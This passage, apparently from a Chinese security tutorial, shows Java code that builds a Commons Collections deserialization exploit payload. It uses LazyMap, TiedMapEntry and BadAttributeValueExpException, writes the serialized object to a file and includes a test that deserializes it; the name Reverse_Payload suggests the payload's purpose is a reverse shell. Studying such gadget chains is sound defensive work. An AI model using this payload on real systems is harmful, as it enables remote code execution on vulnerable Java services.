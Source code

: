 ```

        Map innermap = new HashMap();
        innermap.put("value", "value");

        // 该类重写了readObject方法，并在readObject中有一个可控的地图进行修改的过程
        Map lazyMap = LazyMap.decorate(innermap, transformerChain);

        TiedMapEntry entry = new TiedMapEntry(lazyMap,"foo");

        BadAttributeValueExpException exception = new BadAttributeValueExpException(null);
        Field valField = exception.getClass().getDeclaredField("val");
        valField.setAccessible(true);
        valField.set(exception,entry);
        return exception;
    }

    public static void main(String[] args) throws Exception {
        generatePayload(Reverse_Payload(),"obj");
        //payloadTest("C:\\Users\\varas\\IdeaProjects\\Demo\\obj");
    }
    public static void generatePayload(Object instance, String file)
            throws Exception {
        //将构造好的payload序列化后写入文件中
        File f = new File(file);
        ObjectOutputStream out = new ObjectOutputStream(new FileOutputStream(f));
        out.writeObject(instance);
        out.flush();
        out.close();
    }
    public static void payloadTest(String file) throws Exception {
        //读取写入的payload，并进行反序列化
        ObjectInputStream in = new ObjectInputStream(new FileInputStream(file));
        in.readObject();
        in.close();
    }
}
```



参考链接： https://paper.seebug.org/312/#2